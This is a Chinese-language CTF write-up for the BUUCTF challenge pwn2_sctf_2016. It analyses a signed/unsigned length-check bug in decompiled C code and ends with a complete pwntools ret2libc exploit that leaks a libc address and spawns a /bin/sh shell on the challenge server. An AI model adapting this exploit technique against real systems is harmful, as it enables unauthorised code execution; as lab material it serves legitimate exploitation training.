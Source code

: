 ```yaml
---
author: 
  name: Zephyr
title: pwn2 sctf 2016
date: 2022-3-23 8:25:03
permalink: /pages/2e1547494524d195
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# pwn2 sctf 2016

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/pwn2_sctf_2016/pwn2_sctf_2016'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

## 静态分析

主函数如下

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  setvbuf(stdout, 0, 2, 0);
  return vuln();
}
```

vuln函数如下

```c
int vuln()
{
  char nptr; // [esp+1Ch] [ebp-2Ch]
  int v2; // [esp+3Ch] [ebp-Ch]

  printf("How many bytes do you want me to read? ");
  get_n(&nptr, 4);
  v2 = atoi(&nptr);
  if ( v2 > 32 )
    return printf("No! That size (%d) is too large!\n", v2);
  printf("Ok, sounds good. Give me %u bytes of data!\n", v2);
  get_n(&nptr, v2);
  return printf("You said: %s\n", &nptr);
}
```

get_n函数如下

```c
int __cdecl get_n(int a1, unsigned int a2)
{
  int v2; // eax
  int result; // eax
  char v4; // [esp+Bh] [ebp-Dh]
  unsigned int v5; // [esp+Ch] [ebp-Ch]

  v5 = 0;
  while ( 1 )
  {
    v4 = getchar();
    if ( !v4 || v4 == 10 || v5 >= a2 )
      break;
    v2 = v5++;
    *(_BYTE *)(v2 + a1) = v4;
  }
  result = a1 + v5;
  *(_BYTE *)(a1 + v5) = 0;
  return result;
}
```



## 思路分析

1. 目前信息：
   - `get_n`函数的第二次调用时若能控制v2参数即可实现任意长度写入
   - 而`v2`参数是由第一次`get_n`调用时处理的
   - `get_n`函数顾名思义为向第一个参数内写入第二个参数长度的数据
   - 第一次输入的数据将被转换为`int`值，该值并不允许大于`32`，造成长度太短，无法控制程序执行流
   - `if`判断是有符号类型，`get_n`的控制写入数据长度参数的数据类型为无符号类型
   - No PIE
2. 思路：
   - 利用有无符号类型的区别，首次输入为负数内容绕过`if`判断，例如`-1`，这是该值将会以无符号数的读取方式成为第二次输入数据的长度，为溢出提供条件，后续就是常规的`ret2libc`

## exp

```python
from pwn import *
from LibcSearcher import *
context(os='linux', arch='i386', log_level='debug')
pwnfile = '/root/pwn/buuctf/pwn2_sctf_2016/pwn2_sctf_2016'
io = remote('node4.buuoj.cn', 25697)
# io = process(pwnfile)
elf = ELF(pwnfile)
printf_plt = elf.plt['printf']
libc_start_main_got = elf.got['__libc_start_main']
offset = 44+4
pop_ret = 0x0804835d
vuln_addr = elf.symbols['vuln']
io.sendlineafter('me to read?', '-1')
payload = flat(['a'*offset, printf_plt, pop_ret,libc_start_main_got, vuln_addr])
io.sendlineafter('bytes of data!\n', payload)
io.recvuntil('\n')
leak_libc_start_main = u32(io.recvuntil('How many bytes do you want me to read?', drop=True))
libc = LibcSearcher('__libc_start_main', leak_libc_start_main)
libcbase = leak_libc_start_main-libc.dump('__libc_start_main')
system = libcbase+libc.dump('system')
bin_sh = libcbase+libc.dump('str_bin_sh')
io.sendline('-1')
payload = flat(['a'*offset, system, 0xdeadbeef, bin_sh])
io.sendlineafter('bytes of data!\n', payload)
io.interactive()
```